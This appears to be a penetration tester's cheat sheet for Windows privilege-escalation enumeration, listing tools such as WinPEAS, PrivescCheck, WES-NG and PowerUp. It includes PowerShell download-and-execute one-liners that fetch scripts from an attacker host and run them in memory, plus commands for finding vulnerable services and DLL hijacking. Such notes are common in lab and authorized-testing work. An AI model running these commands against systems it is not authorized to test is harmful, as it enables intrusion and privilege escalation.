### 1: WinPEAS  Author:https://github.com/carlospolop/PEASS-ng/releases

### 2: Privesccheck (Set -ExecutionPolicy Bypass -Scope process -Force) Author: https://github.com/itm4n/PrivescCheck

### 3: Windows Exploit Suggester - Next Generation (WES-NG) Author: https://github.com/AonCyberLabs/Windows-Exploit-Suggester

### Systeminfo > txt file

### wes.py --update

### 4: Metasploit (multi/recon/local_exploit_suggester)

### 5: PowerSharpPack https://github.com/S3cur3Th1sSh1t/PowerSharpPack

    iex(new-object net.webclient).downloadstring('http://ATTACK_IP:PORT/PowerSharpPack.ps1')

### Then

    PowerSharpPack -winPEAS

### 6: Invoke-WinPEAS https://gist.github.com/S3cur3Th1sSh1t/d14c3a14517fd9fb7150f446312d93e0#file-invoke-winpeas-ps1

    iex(new-object net.webclient).downloadstring('http://10.10.14.5:9999/Invoke-winPEAS.ps1')

    Invoke-winPEAS >> .out

### 7: PowerUp

##### All checks

    Invoke-AllChecks

##### Get services with unquoted paths and a space in their name.

    Get-UnquotedService -Verbose

##### Get services where the current user can write to its binary path or change arguments to the binary

    Get-ModifiableServiceFile -Verbose

###### Get the services whose configuration current user can modify.

    Get-ModifiableService -Verbose

##### DLL Hijacking

    Find-ProcessDLLHijack
    Find-PathDLLHijack
